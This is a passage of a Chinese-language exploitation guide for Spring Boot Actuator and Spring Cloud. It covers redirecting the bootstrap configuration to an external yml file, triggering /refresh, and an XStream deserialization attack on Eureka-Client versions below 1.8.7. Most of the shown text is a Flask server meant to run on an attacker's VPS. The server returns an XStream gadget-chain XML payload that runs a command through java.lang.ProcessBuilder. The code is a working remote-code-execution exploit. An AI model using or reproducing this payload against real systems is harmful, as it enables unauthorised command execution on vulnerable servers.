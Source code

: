 - 修改 spring.cloud.bootstrap.location为外部 yml 配置文件地址

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522182158.png)

- 请求 /refresh 接口触发

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522181825.png)

- 执行命令成功

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522182248.png)

### xstream反序列化

- 前提条件

**Eureka-Client <1.8.7（多见于Spring Cloud Netflix）**

- 在VPS创建xstream文件，使用flask返回application/xml格式数据

```
from flask import Flask, Response

app = Flask(__name__)
@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods = ['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                      <string>命令</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next>foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')
```